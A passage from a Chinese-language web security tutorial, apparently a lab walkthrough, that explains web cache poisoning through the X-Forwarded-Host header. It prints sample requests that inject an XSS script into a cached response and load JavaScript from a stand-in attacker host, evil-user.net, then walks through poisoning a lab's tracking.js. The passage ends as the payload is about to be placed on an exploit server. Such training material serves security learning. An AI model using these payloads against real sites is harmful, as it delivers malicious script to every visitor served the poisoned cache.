 我们观察到X-Forwarded-Host指定的URL会代替Host的值被反馈在响应中，并且X-Forwarded-Host是不会被缓存的字段，但是Host和请求行是缓存键。所以所有Host为innocent-website.com的用户请求/en?region=uk都会接收到被投毒的响应，像这样

```
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."&gt;&lt;script&gt;alert(1)&lt;/script&gt;"

HTTP/1.1 200 OK
Cache-Control: public
&lt;meta property="og:image" content="https://a."&gt;&lt;script&gt;alert(1)&lt;/script&gt;"/cms/social.png" /&gt;

```

当然了，alert只是弹窗验证而已，攻击者可以构造更复杂的XSS payload获取更多的东西。

### <a class="reference-link" name="%E4%BD%BF%E7%94%A8Web%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92%E5%8F%91%E5%8A%A8%E4%B8%8D%E5%AE%89%E5%85%A8%E7%9A%84%E8%B5%84%E6%BA%90%E5%AF%BC%E5%85%A5"></a>使用Web缓存投毒发动不安全的资源导入

有的应用程序会导入Host指定服务器的某个资源，比如JS资源，但是如果我们像上面一样通过X-Forwarded-Host代替Host进行导入，则可能导入同名但是内容为恶意payload的JS资源，例如

```
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
&lt;script src="https://evil-user.net/static/analytics.js"&gt;&lt;/script&gt;

```

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E4%BD%BF%E7%94%A8%E4%B8%8D%E8%A2%AB%E7%BC%93%E5%AD%98%E5%A4%B4%E7%9A%84Web%E7%BC%93%E5%AD%98%E6%8A%95%E6%AF%92"></a>配套靶场：使用不被缓存头的Web缓存投毒

首先我们随便设置一个查询参数，然后随便设置一个值，只是为了测试Web缓存

[![](https://p4.ssl.qhimg.com/t01c2e9adc6c465b3eb.png)](https://p4.ssl.qhimg.com/t01c2e9adc6c465b3eb.png)

从上图来看，现在是没有产生Web缓存的，然后我们插入到X-Forwarded-Host字段会替换掉本应是Host字段的值，这样就相当于resources/js/tracking.js这个文件是可以伪造的，然后我们再go一下看一下缓存之后是什么样子的

[![](https://p5.ssl.qhimg.com/t010e0fadb91a99331d.png)](https://p5.ssl.qhimg.com/t010e0fadb91a99331d.png)

好，我们现在看到Web缓存已经生成了，这样，所有被识别为发出等效请求的用户都会接收到这个响应，就会访问到”中毒”后的网页，模拟结束，现在我们到Exploit Server把payload写入到这个同名文件下

[![](https://p3.ssl.qhimg.com/t011488c395c542b3f0.png)](https://p3.ssl.qhimg.com/t011488c395c542b3f0.png)
